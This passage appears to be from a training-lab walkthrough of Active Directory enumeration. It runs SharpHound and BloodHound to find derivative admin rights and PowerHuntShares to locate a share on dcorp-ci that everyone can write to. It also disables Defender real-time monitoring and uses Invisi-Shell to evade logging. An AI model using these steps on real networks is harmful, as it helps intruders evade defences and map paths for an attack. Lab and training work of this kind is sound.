At C:\AD\Tools\BloodHound-4.0.3_old\BloodHound-master\Collectors\SharpHound.ps1:552 char:2
+     $Assembly.GetType("Costura.AssemblyLoader", $false).GetMethod("At ...
+     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (:) [], RuntimeException
    + FullyQualifiedErrorId : InvokeMethodOnNull

You cannot call a method on a null-valued expression.
At C:\AD\Tools\BloodHound-4.0.3_old\BloodHound-master\Collectors\SharpHound.ps1:553 char:2
+     $Assembly.GetType("SharpHound3.SharpHound").GetMethod("InvokeShar ...
+     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (:) [], RuntimeException
    + FullyQualifiedErrorId : InvokeMethodOnNull
```
❌



<🔄 Alternative Step🔄>

`Set-MpPreference -DisableRealtimeMonitoring $true`

</🔄 Alternative Step🔄>

`Invoke-BloodHound -CollectionMethod All`:
```
-----------------------------------------------
Initializing SharpHound at 2:40 AM on 2/21/2025
-----------------------------------------------

Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container

[+] Creating Schema map for domain DOLLARCORP.MONEYCORP.LOCAL using path CN=Schema,CN=Configuration,DC=moneycorp,DC=local
[+] Cache File Found! Loaded 339 Objects in cache

[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 79 MB RAM
Status: 178 objects finished (+178 19.77778)/s -- Using 106 MB RAM
Enumeration finished in 00:00:09.4358018
Compressing data to C:\AD\Tools\BloodHound-4.0.3_old\BloodHound-master\Collectors\20250221024052_BloodHound.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 2:41 AM on 2/21/2025! Happy Graphing!
```

<🔄 Alternative Step🔄>

`.\SharpHound.exe --CollectionMethod All`:
```
-----------------------------------------------
Initializing SharpHound at 4:59 AM on 2/12/2025
-----------------------------------------------

Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container

[+] Creating Schema map for domain DOLLARCORP.MONEYCORP.LOCAL using path CN=Schema,CN=Configuration,DC=moneycorp,DC=local
[+] Cache File not Found: 0 Objects in cache

[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 19 MB RAM
[+] Creating Schema map for domain MONEYCORP.LOCAL using path CN=Schema,CN=Configuration,DC=moneycorp,DC=local
[+] Creating Schema map for domain MONEYCORP.LOCAL using path CN=Schema,CN=Configuration,DC=moneycorp,DC=local
[+] Creating Schema map for domain MONEYCORP.LOCAL using path CN=Schema,CN=Configuration,DC=moneycorp,DC=local
[+] Creating Schema map for domain MONEYCORP.LOCAL using path CN=Schema,CN=Configuration,DC=moneycorp,DC=local
[+] Creating Schema map for domain MONEYCORP.LOCAL using path CN=Schema,CN=Configuration,DC=moneycorp,DC=local
Status: 178 objects finished (+178 29.66667)/s -- Using 33 MB RAM
Enumeration finished in 00:00:06.9775358
Compressing data to .\20250212045923_BloodHound.zip📌
You can upload this file directly to the UI

SharpHound Enumeration Completed at 4:59 AM on 2/12/2025! Happy Graphing!
```

</🔄 Alternative Step🔄>

Open the UI of BloodHound 4.0.3 with `C:\AD\Tools\BloodHound-4.0.3_old\BloodHound-win32-x64\BloodHound.exe`.

The username and password remain the same as both versions are using the same neo4j service. Remember to click on `Clear Database` option in the BloodHound 4.0.3 and upload new data from its own collector.

Search for `student422` in the search bar and click on the identity.

In `Node Info`, scroll down to `LOCAL ADMIN RIGHTS` and expand `Derivative Local Admin Rights` to find if `student422` has derivate local admin rights on any machine.


🚩

3. **Find a file share where `student422` has write permissions**

We will use PowerHuntShares to search for file shares where `student422` has write permissions.

Run the following commands from a PowerShell session started using Invisi-Shell.


`cd \AD\Tools`

`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`Import-Module C:\AD\Tools\PowerHuntShares.psm1`

We will not scan the domain controller for writable shares for a better OPSEC.

`type C:\AD\Tools\servers.txt`:
```
dcorp-dc.dollarcorp.moneycorp.local📌
dcorp-adminsrv.dollarcorp.moneycorp.local
dcorp-appsrv.dollarcorp.moneycorp.local
dcorp-ci.dollarcorp.moneycorp.local
dcorp-mgmt.dollarcorp.moneycorp.local
dcorp-mssql.dollarcorp.moneycorp.local
dcorp-sql1.dollarcorp.moneycorp.local
dcorp-stdadmin.dollarcorp.moneycorp.local

[SNIP]
```

`notepad C:\AD\Tools\servers.txt`:
```
dcorp-adminsrv.dollarcorp.moneycorp.local
dcorp-appsrv.dollarcorp.moneycorp.local
dcorp-ci.dollarcorp.moneycorp.local
dcorp-mgmt.dollarcorp.moneycorp.local
dcorp-mssql.dollarcorp.moneycorp.local
dcorp-sql1.dollarcorp.moneycorp.local
dcorp-stdadmin.dollarcorp.moneycorp.local
```

`Invoke-HuntSMBShares -NoPing -OutputDirectory C:\AD\Tools\ -HostList C:\AD\Tools\servers.txt`:
```
[SNIP]

 ---------------------------------------------------------------
 SHARE DISCOVERY
 ---------------------------------------------------------------
 [*][02/20/2025 06:31] Scan Start
 [*][02/20/2025 06:31] Output Directory: C:\AD\Tools\\SmbShareHunt-02202025063120
 [*][02/20/2025 06:31] Importing computer targets from C:\AD\Tools\servers.txt
 [*][02/20/2025 06:31] 7 systems will be targeted
 [*][02/20/2025 06:31] - Skipping ping scan.
 [*][02/20/2025 06:31] Checking if TCP Port 445 is open on 7 computers
 [*][02/20/2025 06:31] - 7 computers have TCP port 445 open.
 [*][02/20/2025 06:31] Getting a list of SMB shares from 7 computers
 [*][02/20/2025 06:31] - 23 SMB shares were found.
 [*][02/20/2025 06:31] Getting share permissions from 23 SMB shares
 [*][02/20/2025 06:31] - 30 share permissions were enumerated.
 [*][02/20/2025 06:31] Identifying potentially excessive share permissions
 [*][02/20/2025 06:31] - 10 potentially excessive privileges were found on 4 shares across 3 systems.
 [*][02/20/2025 06:31] Getting directory listings from 4 SMB shares
 [*][02/20/2025 06:31] - Targeting up to 3 nested directory levels
 [*][02/20/2025 06:31] - 6 files and folders were enumerated.
 [*][02/20/2025 06:31] Scan Complete

[SNIP]
 
 [*][02/20/2025 06:31] Creating ShareGraph nodes and edges...
 [*][02/20/2025 06:31] Analysis Complete
 ---------------------------------------------------------------
 SHARE REPORT SUMMARY📌
 ---------------------------------------------------------------
 [*][02/20/2025 06:31] Domain: SmbHunt
 [*][02/20/2025 06:31] Start time: 02/20/2025 06:31:20
 [*][02/20/2025 06:31] End time: 02/20/2025 06:31:45
 [*][02/20/2025 06:31] Run time: 00:00:25.1958136
 [*][02/20/2025 06:31]
 [*][02/20/2025 06:31] COMPUTER SUMMARY
 [*][02/20/2025 06:31] - 7 domain computers found.
 [*][02/20/2025 06:31] - 0 (0.00%) domain computers responded to ping. (No Ping)
 [*][02/20/2025 06:31] - 7 (100.00%) domain computers had TCP port 445 accessible.
 [*][02/20/2025 06:31] - 3 (42.86%) domain computers had shares that were non-default.
 [*][02/20/2025 06:31] - 3 (42.86%) domain computers had shares with potentially excessive privileges.
 [*][02/20/2025 06:31] - 3 (42.86%) domain computers had shares that allowed READ access.
 [*][02/20/2025 06:31] - 2 (28.57%) domain computers had shares that allowed WRITE access.
 [*][02/20/2025 06:31] - 1 (14.29%) domain computers had shares that are HIGH RISK.
 [*][02/20/2025 06:31]
 [*][02/20/2025 06:31] SHARE SUMMARY
 [*][02/20/2025 06:31] - 23 shares were found. We expect a minimum of 14 shares
 [*][02/20/2025 06:31]   because 7 systems had open ports and there are typically two default shares.
 [*][02/20/2025 06:31] - 4 (17.39%) shares across 3 systems were non-default.
 [*][02/20/2025 06:31] - 4 (17.39%) shares across 3 systems are configured with 10 potentially excessive ACLs.
 [*][02/20/2025 06:31] - 4 (17.39%) shares across 3 systems allowed READ access.
 [*][02/20/2025 06:31] - 2 (8.70%) shares across 2 systems allowed WRITE access.
 [*][02/20/2025 06:31] - 2 (8.70%) shares across 1 systems are considered HIGH RISK.
 [*][02/20/2025 06:31]
 [*][02/20/2025 06:31] SHARE ACL SUMMARY
 [*][02/20/2025 06:31] - 30 ACLs were found.
 [*][02/20/2025 06:31] - 30 (100.00%) ACLs were associated with non-default shares.
 [*][02/20/2025 06:31] - 10 (33.33%) ACLs were found to be potentially excessive.
 [*][02/20/2025 06:31] - 6 (20.00%) ACLs were found that allowed READ access.
 [*][02/20/2025 06:31] - 2 (6.67%) ACLs were found that allowed WRITE access.
 [*][02/20/2025 06:31] - 5 (16.67%) ACLs were found that are associated with HIGH RISK share names.
 [*][02/20/2025 06:31]
 [*][02/20/2025 06:31] - The most common share names are:
 [*][02/20/2025 06:31] - 4 of 4 (100.00%) discovered shares are associated with the top 200 share names.
 [*][02/20/2025 06:31]   - 1 AI📁
 [*][02/20/2025 06:31]   - 1 studentshareadmin
 [*][02/20/2025 06:31]   - 1 C$
 [*][02/20/2025 06:31]   - 1 ADMIN$
 [*] -----------------------------------------------
 [*][02/20/2025 06:31]   - Generating HTML Report
 [*][02/20/2025 06:31]   - Estimated generation time: 1 minute or less
 [*][02/20/2025 06:31]   - All files written to C:\AD\Tools\\SmbShareHunt-02202025063120📌
 [*][02/20/2025 06:31]   - Done.
```

`dir C:\AD\Tools\SmbShareHunt-02202025063120`:
```
    Directory: C:\AD\Tools\SmbShareHunt-02202025063120


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         2/20/2025   6:31 AM                Results
-a----         2/20/2025   6:31 AM        1069450 Summary-Report-SmbHunt.html📌
```

You need to copy the summary report to your host machine because the report needs internet access, which is not available on the student VM.

The 'Summary Report' page shows, well, the summary.



The `Critical` and `High` findings will be for `dcorp-adminsrv` as `student422` has admin privileges there.
Another interesting observation is in the `Low` findings that shows that there is a directory named `AI` on `dcorp-ci` where `BUILTIN\Users` has `WriteData/AddFile` permissions.



Go to `ShareGraph` -> `Search Nodes: dcorp-ci` -> right click on `dcorp-ci` node -> click `Expand`.
It turns out that `Everyone` has privileges on the `AI` folder.


🚩

---
---
